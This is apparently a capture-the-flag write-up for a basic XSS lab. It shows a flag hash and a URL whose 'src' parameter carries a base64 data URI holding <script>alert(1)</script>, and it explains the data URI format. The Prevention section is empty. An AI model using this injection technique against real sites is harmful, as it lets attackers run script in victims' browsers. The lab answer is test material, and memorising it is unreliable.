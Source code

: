 # BASIC XSS

## Flag
```
928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D
```

## Discovery
On the page http://{IP_ADDRESS}/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==

```
Encrypt the script and put it in the link value
``` 
Base64(<script>alert(1)</script>) = PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==

Enter *decripted script* in the name input.

data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==

## Use
> Data URI is a clever method of inserting tiny files inline in HTML texts. Instead of referring to a file kept locally on the server, the file is delivered as a base64-encoded string of data prefixed by a mime-type inside the URL itself.
```
data:[mediatype][;base64],data
```


## Prevention


## Documentation
- [Base64 - Decode/Encode](https://https://www.base64decode.org/)
- [What is Cross-Site Scripting (XSS) Off-Domain – Data URI Vulnerability?](https://zofixer.com/what-is-cross-site-scripting-xss-off-domain-data-uri-vulnerability/)

- [Web Security Lens](https://https://www.websecuritylens.org/tag/xss/)
---